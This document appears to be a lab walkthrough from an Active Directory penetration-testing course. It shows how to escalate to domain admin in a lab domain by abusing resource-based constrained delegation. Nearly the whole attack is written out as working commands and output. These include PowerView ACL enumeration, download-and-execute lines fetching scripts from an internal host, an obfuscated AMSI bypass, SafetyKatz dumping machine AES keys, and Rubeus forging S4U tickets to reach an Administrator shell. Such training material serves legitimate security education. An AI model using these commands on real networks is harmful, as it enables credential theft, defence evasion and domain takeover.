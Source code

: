 # Learning Objective 17 (Privilege Escalation | Resource-based Constrained Delegation)

## Tasks

1. **Escalate to DA privileges abusing the resource-based constrained delegation**

---

## Attack Path Steps

- **Find a Target Server where we have Write Permissions and Access to it**
- **Set RBCD on the Target Server for the Student Machine**
- **Extract Student Machine TGS Encryption Key Hash**
- **Forge an S4U TGS using the Student Machine TGS Encryption Key Hash for Privilege Escalation**
- **Leverage the Forged Ticket to Gain DA Access to the Target Server**

---

## Solution

1. **Escalate to DA privileges abusing the resource-based constrained delegation**

- **Find a Target Server where we have Write Permissions and Access to it**

Let's use PowerView from a PowerShell session started using Invisi-Shell to enumerate write permissions for a user that we have compromised.

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

After trying from multiple users or using BloodHound we would know that the user `ciadmin` has write permissions on the computer object of `dcorp-mgmt`.

`Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}`:
```
ObjectDN                : CN=DCORP-MGMT🖥️,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ListChildren, ReadProperty, GenericWrite📌
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-719815819-3726368948-3917688648-1121
IdentityReferenceName   : ciadmin👤
IdentityReferenceDomain : dollarcorp.moneycorp.local
IdentityReferenceDN     : CN=ci admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
IdentityReferenceClass  : user
```

Recall that we compromised `ciadmin` from `dcorp-ci`. We can either use the reverse shell we have on `dcorp-ci` as `ciadmin` (see *Learning Objective 05*) or extract the credentials from `dcorp-ci`.

Let's use the reverse shell that we have and load PowerView there.

![dcorp-ci | ciadmin](https://custom-icon-badges.demolab.com/badge/dcorp--ci-ciadmin-64b5f6?logo=windows11&logoColor=white)

![HFS - sbloggingbypass.txt](./assets/screenshots/learning_objective_17_hfs_sbloggingbypass.png)

`iex (iwr http://172.16.100.22/sbloggingbypass.txt -UseBasicParsing)`

Use the below command to bypass AMSI.

```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

![HFS - PowerView.ps1](./assets/screenshots/learning_objective_17_hfs_powerview.png)

`iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.22/PowerView.ps1'))`

- **Set RBCD on the Target Server for the Student Machine**

`Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std422$' -Verbose`

Check if RBCD is set correctly.

`Get-DomainRBCD`:
```
[SNIP]

SourceName                 : DCORP-MGMT$🖥️
SourceType                 : MACHINE_ACCOUNT
SourceSID                  : S-1-5-21-719815819-3726368948-3917688648-1108
SourceAccountControl       : WORKSTATION_TRUST_ACCOUNT
SourceDistinguishedName    : CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
ServicePrincipalName       : {WSMAN/dcorp-mgmt, WSMAN/dcorp-mgmt.dollarcorp.moneycorp.local, TERMSRV/DCORP-MGMT,
                             TERMSRV/dcorp-mgmt.dollarcorp.moneycorp.local...}
DelegatedName              : DCORP-STD422$📌
DelegatedType              : MACHINE_ACCOUNT
DelegatedSID               : S-1-5-21-719815819-3726368948-3917688648-20687
DelegatedAccountControl    : WORKSTATION_TRUST_ACCOUNT
DelegatedDistinguishedName : CN=DCORP-STD422📌,OU=StudentMachines,DC=dollarcorp,DC=moneycorp,DC=local

[SNIP]
```

- **Extract Student Machine TGS Encryption Key Hash**

Get AES keys of your student VM (as we configured RBCD for it above).

![Run as administrator](./assets/screenshots/learning_objectives_run_as_administrator.png)

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"`:
```
[SNIP]

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DCORP-STD422$🖥️
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/16/2025 8:02:30 AM
SID               : S-1-5-18

         * Username : dcorp-std422$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       52b7cacc70a07595ebea80159deca504f201eca606f7bc7c29ace09ed9ff36fe🔑
           rc4_hmac_nt       2e70361e28e3c071f40f183b001fc3b0
           rc4_hmac_old      2e70361e28e3c071f40f183b001fc3b0
           rc4_md4           2e70361e28e3c071f40f183b001fc3b0
           rc4_hmac_nt_exp   2e70361e28e3c071f40f183b001fc3b0
           rc4_hmac_old_exp  2e70361e28e3c071f40f183b001fc3b0

[SNIP]
```

- **Forge an S4U TGS using the Student Machine TGS Encryption Key Hash for Privilege Escalation**

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:dcorp-std422$ /aes256:52b7cacc70a07595ebea80159deca504f201eca606f7bc7c29ace09ed9ff36fe /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt`:
```
[SNIP]

[*] Action: S4U📌

[*] Using aes256_cts_hmac_sha1 hash: 52b7cacc70a07595ebea80159deca504f201eca606f7bc7c29ace09ed9ff36fe
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\dcorp-std422$'
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!📌
[*] base64(ticket.kirbi):

[SNIP]

[*] Action: S4U📌

[*] Building S4U2self request for: 'dcorp-std422$@DOLLARCORP.MONEYCORP.LOCAL'
[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[*] Sending S4U2self request to 172.16.2.1:88
[+] S4U2self success!
[*] Got a TGS for 'administrator'🎭 to 'dcorp-std422$🖥️@DOLLARCORP.MONEYCORP.LOCAL'🏛️
[*] base64(ticket.kirbi):

[SNIP]

[*] Impersonating user 'administrator'🎭 to target SPN 'http📌/dcorp-mgmt'🖥️
[*] Building S4U2proxy request for service: 'http/dcorp-mgmt'
[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[*] Sending S4U2proxy request to domain controller 172.16.2.1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'http/dcorp-mgmt':

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x38bfd7

Cached Tickets: (1)

#0>     Client: administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: http📌/dcorp-mgmt @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/17/2025 4:58:42 (local)
        End Time:   2/17/2025 14:58:41 (local)
        Renew Time: 2/24/2025 4:58:41 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

- **Leverage the Forged Ticket to Gain DA Access to the Target Server**

`winrs -r:dcorp-mgmt cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator.dcorp>
```
🚀

![dcorp-mgmt | administrator](https://custom-icon-badges.demolab.com/badge/dcorp--mgmt-administrator-64b5f6?logo=windows11&logoColor=white)

`set username`:
```
USERNAME=Administrator👤
```

`set computername`:
```
COMPUTERNAME=DCORP-MGMT🖥️
```
🚩

---
---
